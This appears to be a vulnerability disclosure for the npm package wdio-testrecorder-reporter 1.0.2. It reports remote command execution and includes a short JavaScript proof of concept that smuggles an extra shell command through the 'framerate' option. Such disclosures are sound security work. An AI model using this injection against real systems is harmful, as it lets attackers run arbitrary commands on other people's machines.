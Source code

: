 ## Details
I would like to report a `RCE` issue in the `wdio-testrecorder-reporter` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

## Module
* **module name:** `wdio-testrecorder-reporter`
* **version:** `1.0.2`
* **npm page:** `https://www.npmjs.com/package/wdio-testrecorder-reporter`

## Module Description
> A reporter for WDIO v5 that generates videos of your wdio test executions.

## Module Stats
[166] downloads in the last week

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/tamil777selvan/wdio-testrecorder-reporter/blob/master/index.js#L111

## POC

```js
// poc.js
var wdio = require('wdio-testrecorder-reporter').default;
var conv = new wdio({'outputDir':'s', 'videoOutputPath':'s', 'framerate':'test; touch HACKED; #'});
suiteStat = {};
suiteStat.complete = function(){};
conv._events['suite:start']({'type':'scenario', 'title':'s'});
conv._events['suite:end']({uid:'s'});
conv._events['suite:start']({'type':'scenario'})
conv._events['suite:end']({});

```

## Impact
`RCE` via command formatting on `wdio-testrecorder-reporter`
